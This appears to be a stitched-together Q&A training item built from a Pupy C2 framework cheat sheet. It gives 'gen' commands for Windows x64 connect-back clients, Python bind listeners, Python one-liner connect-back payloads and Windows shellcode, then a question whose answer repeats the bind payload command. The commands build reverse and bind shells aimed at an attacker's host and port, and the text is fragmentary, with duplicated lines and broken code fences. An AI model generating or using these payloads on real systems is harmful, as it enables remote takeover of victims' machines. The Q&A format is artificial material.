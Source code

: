 Context:```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```
### Python Bind Payload with pupy
Generates a **Python payload** that opens a listener on the target machine, binding to a specific port with the specified transport method.
```
>> gen -f py bind --port port -t transport
```
>> gen -f py bind --port port -t transport
```
### Python One-liner Connect Payload with pupy
Creates a Python one-liner payload that connects back to the attacker machine at the specified IP and port using the chosen transport.

```
>> gen -f py_oneliner connect --host ip:port -t transport
```
```
>> gen -f <format> <launcher> -t <transport>
```
### Windows Shellcode Payload with pupy
Generates a Windows shellcode payload that connects to the specified IP and port using a transport method.
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport

 Question: Generate an example of using the gen command in Pupy to create a Python bind payload. The payload should open a listener on the target machine, binding to a specific port with the specified transport method. Respond with the command in the following format: \n >> gen -f py bind --port <port> -t <transport>. 

 Your response: 
```
>> gen -f py bind --port port -t transport
```